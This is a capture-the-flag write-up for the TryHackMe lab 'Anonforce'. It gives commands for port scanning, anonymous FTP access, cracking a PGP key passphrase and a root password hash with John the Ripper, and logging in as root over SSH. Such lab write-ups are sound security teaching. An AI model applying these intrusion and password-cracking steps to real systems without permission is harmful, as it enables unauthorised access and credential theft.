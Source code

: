 ```yaml
---
layout: post
title: "THM - Anonforce"
date: 2022-02-04
categories: [Tryhackme, Linux]
tags: [security]
image: ../../assets/img/posts/Anonforce/anonforce.png 

---
```


## Description

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

|**Room**|Agent Sudo|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Room Link**| https://tryhackme.com/room/bsidesgtanonforce |
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a $IP
```

![rustscan](../../assets/img/posts/Anonforce/rustscan.png)

we get 2 open port. Lets scan this using nmap,

```bash
nmap -sV -sC -p21,22 $IP -oN nmap.txt
```

![nmap1](../../assets/img/posts/Anonforce/nmap1.png)
![nmap2](../../assets/img/posts/Anonforce/nmap2.png)
Result scan reveals that port 21 is running vsftpd with anonymous login and port 22 is running ssh service. Enumerate port 21.

Lets connect to ftp service,

```bash
ftp $IP
```

![ftp1](../../assets/img/posts/Anonforce/ftp1.png)
we got in.

Establishing directory content,

![ftp2](../../assets/img/posts/Anonforce/ftp2.png)

navigating to home directory and list directory content,

![ftp3](../../assets/img/posts/Anonforce/ftp3.png)

we got melodias user.

navigating to user directory and list directory content,

![ftp4](../../assets/img/posts/Anonforce/ftp4.png)

we got our user flag. But since we cannot read it, we can take this user.txt file on our system using `get`,

```bash
get user.txt
```

![ftp5](../../assets/img/posts/Anonforce/ftp5.png)

Now, there is also a **notread** directory in system directory as well, so taking a look inside directory reveals that there are 2 files backup.pgp file and private.asc,

![ftp6](../../assets/img/posts/Anonforce/ftp6.png)

We can get these files on our system,

```bash
get backup.pgp
get private.asc
```

We can convert this key into crack-able hash,

```bash
gpg2john private.asc > crackmejohn
```

Now using JTR, we can crack the hash,

```bash
john crackmejohn --wordlist=/usr/share/wordlists/rockyou.txt
```

![john](../../assets/img/posts/Anonforce/john.png)

we got our password, `*******`.

Now, we can import this private key so that we can decrypt the backup key,

```bash
gpg --import private.asc
```

![gpg](../../assets/img/posts/Anonforce/gpg.png)

Now, we can decrypt the backup.pgp file using the password we got,

```bash
gpg --output backup --decrypt backup.pgp
```

![gpg2](../../assets/img/posts/Anonforce/gpg2.png)

Reading the content of backup we just decrypted,

![hashes](../../assets/img/posts/Anonforce/hashes.png)

We got the password hash of root user.

Let's put this hash in a file,

```bash
echo "<hash-string>" > root_hash
```

Now, using JTR to crack this hash,

```bash
john root_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![john2](../../assets/img/posts/Anonforce/john2.png)

We can get into machine via ssh,

```bash
ssh root@$IP
```

![ssh](../../assets/img/posts/Anonforce/ssh.png)

we get in as root user.
